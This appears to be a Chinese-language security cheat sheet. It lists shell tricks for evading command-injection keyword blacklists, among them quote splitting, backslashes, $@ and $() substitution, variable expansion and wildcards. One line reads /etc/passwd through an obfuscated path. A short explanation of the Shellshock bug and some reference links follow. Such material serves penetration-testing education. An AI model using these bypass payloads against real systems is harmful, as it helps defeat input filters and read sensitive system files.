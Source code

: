 ### 绕过列入黑名单的词

```
单引号
	w'h'o'am'i

双引号
	w"h"o"am"i

用反斜杠和斜杠绕过
	w\ho\am\i
	/\b\i\n/////s\h

使用 $@ 绕过
	who$@ami
	echo $0
	-> /usr/bin/zsh
	echo whoami|$0

使用 $() 绕过
	who$()ami
	who$(echo am)i
	who`echo am`i
	
使用变量扩展绕过
	/???/??t /???/p??s??
	test=/ehhh/hmtc/pahhh/hmsswd
	cat ${test//hhh\/hm/}
	cat ${test//hh??hm/}

使用通配符绕过
	powershell C:\*\*2\n??e*d.*? # notepad
	@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

#### Shellshock 漏洞 (CVE-2014-6271)

漏洞简介

破壳漏洞(shellshock)，也被称为bashdoor，是广泛使用的Unix shell中的一系列安全漏洞，其中第一个漏洞于2014年9月24日被披露。许多面向互联网的服务，如一些网络服务器部署，使用bash来处理某些请求，允许攻击者导致脆弱的bash版本执行任意命令。这可以让攻击者获得对计算机系统的未授权访问。此漏洞源于在调用bash shell之前可以用构造的值创建环境变量。这些变量可以包含代码，在shell被调用后会被立即执行

漏洞成因:

bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。核心的原因在于在输入的过滤中没有严格限制边界，没有做合法化的参数判断。

漏洞范围:

bash版本小于等于4.3

## 参考资料:

https://zhuanlan.zhihu.com/p/630478281

https://blog.csdn.net/m0_62008601/article/details/126189783

https://blog.csdn.net/weixin_47536169/article/details/126576965